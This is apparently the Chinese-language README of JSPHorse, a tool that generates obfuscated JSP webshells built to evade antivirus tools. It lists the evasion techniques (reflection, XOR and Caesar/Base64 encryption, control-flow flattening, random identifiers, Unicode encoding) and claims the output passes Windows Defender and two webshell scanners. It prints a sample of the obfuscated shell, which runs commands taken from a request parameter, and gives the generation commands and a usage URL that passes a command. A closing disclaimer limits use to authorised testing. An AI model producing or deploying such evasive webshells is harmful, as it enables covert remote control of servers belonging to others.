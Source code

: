 # JSPHorse

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/JavaParser-3.23.1-blue)
![](https://img.shields.io/badge/Java-8-red)

## 简介

一个JSP免杀Webshell生成器，目前仅支持普通回显Webshell，后续可能支持冰蝎等，核心技术为Java的AST库JavaParser

```txt
　　 へ　　　　　／|
　　/＼7　　　 ∠＿/
　 /　│　　 ／　／
　│　Z ＿,＜　／　　 /`ヽ
　│　　　　　ヽ　　 /　　〉
　 Y　　　　　`　 /　　/
　?●　?　●　　??〈　　/
　()　 へ　　　　|　＼〈
　　>? ?_　 ィ　 │ ／／
　 / へ　　 /　?＜| ＼＼
　 ヽ_?　　(_／　 │／／
　　7　　　　　　　|／
　　＞―r￣￣~∠--|
```

特点：

- Java反射调用
- 双重异或加密数字常量
- 凯撒密码随机偏移并结合Base64双重加密字符串常量
- 使用控制流平坦化并随机生成分发器
- 所有标识符全部替换为随机字符串
- 支持全局Unicode编码
- 每次执行都会生成完全不同的马（结构相同内容不同）
- 参考三梦师傅代码完成Javac动态编译class进一步免杀
- 正在编写ScriptEngine调用JS免杀（即将完成）

简单测试了免杀效果：

| 名称 | 测试结果 |
| :----: | :----: |
| 百度WEBDIR+ | ![](https://img.shields.io/badge/pass-green) |
| 河马SHELLPUB | ![](https://img.shields.io/badge/pass-green) |
| Windows Defender | ![](https://img.shields.io/badge/pass-green) |

生成JSP大致代码如下：

```java
 try {
        String[] bUKHeZoxwrAKYLkjvcMP = new String[] { "NXwwfDJ8M3w3fDl8MTB8MTF8Nnw4fDF8NA==", "eGVs", "a3Vs", "amF2YS5sYW5nLlJ1bnRpbWU=", "b21iWmN2YnF1bQ==", "bWZtaw==", "PHByZT4=", "PC9wcmU+" };
        String CSLEQilaJEXYTqhIDubS = dec(bUKHeZoxwrAKYLkjvcMP[((627747 ^ 1285107) ^ (217916 ^ 1662188))], ((362867 ^ 1112231) ^ (464295 ^ 1205371)));
        String[] jhetxjKiUeIqIeKBycOb = CSLEQilaJEXYTqhIDubS.split("\\|");
        int jEpUBflQcOJKNizndvCp = ((525415 ^ 1384817) ^ (317417 ^ 1700607));
        String UQIOIelnYKguiPiMnaQT = null;
        String nawTPQyIRdcwDULZVBSF = null;
        Class PGyKjvgngwNbFYoJPbaj = null;
        java.lang.reflect.Method EbTdlrXQiEuMcgyFuGyY = null;
        java.lang.reflect.Method HGjRkjZSeXejrnHgtgIq = null;
        Process gVCGkwmXVnpDbwgkpiyP = null;
        java.io.InputStream DIFNoxuAzWMRCwXZtJWB = null;
        byte[] RDwBQBJtrIRqaxomirvG = null;
        while (true) {
            int OKovVnfpZyAFhVlmyglP = Integer.parseInt(jhetxjKiUeIqIeKBycOb[jEpUBflQcOJKNizndvCp++]);
            switch(OKovVnfpZyAFhVlmyglP) {
                case ((303670 ^ 1554191) ^ (15449 ^ 1255776)):
                    nawTPQyIRdcwDULZVBSF = request.getParameter(dec(bUKHeZoxwrAKYLkjvcMP[((2039625 ^ 1074544) ^ (1424304 ^ 1753483))], ((841358 ^ 1837015) ^ (835561 ^ 1863352))));
                    break;
                case ((849435 ^ 1174311) ^ (325714 ^ 1697127)):
                    HGjRkjZSeXejrnHgtgIq = PGyKjvgngwNbFYoJPbaj.getMethod(dec(bUKHeZoxwrAKYLkjvcMP[((673702 ^ 1287280) ^ (321257 ^ 1901882))], ((534640 ^ 1947587) ^ (300141 ^ 1117142))), String.class);
                    break;
                case ((346862 ^ 1984726) ^ (144870 ^ 1652694)):
                    out.print(dec(bUKHeZoxwrAKYLkjvcMP[((591409 ^ 1247053) ^ (1047216 ^ 1440714))], ((1916117 ^ 1041302) ^ (390214 ^ 1518349))));
                    break;
......................................................
```

## Quick Start

在Github右侧Release页面下载

生成标准形式Webshell

`java -jar JSPHorse.jar -p your_password`

全局Unicode编码（JSP支持全局Unicode编码）

`java -jar JSPHorse.jar -p your_password -u`

生成进阶版Webshell（Javac动态编译class）

`java -jar JSPHorse.jar -p your_password --super`

进阶版Webshell基础上全局Unicode编码

`java -jar JSPHorse.jar -p your_password --super -u`

使用木头神提供的JS免杀（未测试）

`java -jar JSPHorse.jar -p your_password -j`

如何使用？

http://xxx/1.jsp?pwd=your_password&cmd=calc.exe

## 免责申明

未经授权许可使用`JSPHorse`攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的


